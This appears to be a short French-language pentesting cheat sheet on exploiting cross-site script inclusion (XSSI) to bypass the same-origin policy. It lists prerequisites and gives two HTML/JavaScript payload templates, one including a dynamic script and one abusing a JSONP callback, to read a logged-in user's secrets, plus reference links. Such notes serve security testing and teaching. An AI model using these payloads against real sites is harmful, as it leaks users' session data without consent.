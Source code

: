 # XSSi

> Tips pour l'exploitation de XSSi
>
> Faille permettant de bypass la protection SOP (évite qu'un attaquant puisse récupérer des informations d'un **autre site** avec les droits de l'utilisateur connecté)
>
> Objectifs : récupérer du contenu dynamique (une page), propre à un utilisateur (et donc, contenant des secrets propres à sa session)



**Prérequis :**

- Pas d'headers CORS : `Authorization, X-API-KEY, X-CSRF-TOKEN, X-whatever`
- Pas d'header `X-Content-Type-Options : nosniff`



**Cible :**

- fichiers `.js` contenant des informations dynamiques :

  ```javascript
  <script src="https://www.vulnerable-domain.tld/script.js"></script>
  <script> alert(JSON.stringify(confidential_keys[0])); </script>
  ```

- fichiers `.json` contenant des informations dynamiques (pour ce type de fichiers, il faut trouver un paramètre **jsonp** de callback) :

  ```javascript
  <script>
        leak = function (leaked) {
  	  alert(JSON.stringify(leaked));
        };  
  </script>
  <script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
  ```



### Ressources

- https://www.scip.ch/en/?labs.20160414
- https://www.sjoerdlangkemper.nl/2019/01/02/jsonp/
- https://www.dailysecurity.fr/xssi-sop-bypass/
- https://www.mbsd.jp/Whitepaper/xssi.pdf
- https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion
- Extension BURP pour détecter du javascript généré dynamiquement : https://github.com/luh2/DetectDynamicJS

